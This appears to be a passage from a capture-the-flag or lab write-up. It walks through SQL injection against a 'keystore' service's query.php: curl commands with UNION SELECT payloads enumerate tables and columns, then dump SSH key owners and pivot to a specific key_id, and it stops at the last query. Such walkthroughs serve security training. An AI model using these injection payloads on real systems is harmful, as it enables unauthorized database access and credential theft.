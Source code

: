`curl "http://keystore/query.php?keyname=%27+UNION+SELECT+TABLE_NAME,+NULL,+NULL+FROM+information_schema.tables%23" | tail`

Return tablenames: keystore, user_key_upload, userstore

`curl "http://keystore/query.php?keyname=%27+UNION+SELECT++table_name,COLUMN_NAME,+NULL+FROM+information_schema.columns%23" | tail -n 10`

return the tablenames and columns:
keystore:
  key_id
  key_type
  key_data
  owner
user_key_upload:
  user_id
  key_id
  upload_date
userstore:
  user_id
  user_name
  user_password

`curl "http://keystore/query.php?keyname=%27+UNION+SELECT+k.key_id,k.key_type,k.owner+FROM+keystore+k%23"`

returns:
13941 ssh-rsa vault@laptop-mgr-46
14074 ssh-rsa vault@laptop-mgr-21
14347 ssh-rsa lootd@cloud-mgr-46
15572 ssh-rsa lootd@cloud-mgr-26
15887 ssh-rsa vault@cloud-c2-54
16006 ssh-ed25519 nadiah@localhost
16048 ssh-rsa vault@cloud-c2-64
16986 ssh-rsa vault@laptop-cache-51
17245 ssh-rsa oper@cloud-hq-42
17462 ssh-rsa lootd@laptop-cache-84
17693 ssh-rsa oper@cloud-mgr-15
18008 ssh-rsa lootd@vps-c2-40
18358 ssh-rsa vault@laptop-mgr-58
18407 ssh-rsa vault@cloud-c2-70
18421 ssh-ed25519 arjen.lenstra@localhost
18435 ssh-rsa oper@laptop-mgr-79
18617 ssh-rsa vault@laptop-c2-86
18813 ssh-rsa oper@laptop-c2-25
18876 ssh-rsa oper@cloud-c2-57
19044 ssh-rsa vault@laptop-cache-1
19408 ssh-rsa vault@cloud-cache-73

This looks like all the uploaded public keys, we are interested in oper@cloud-mgr-15, so we use the associated key_id (17693) to look further:

`curl "http://keystore/query.php?keyname=%27+UNION+SELECT+user_id,key_id,upload_date+FROM+user_key_upload+WHERE+key_id%3D+17693+%23"`
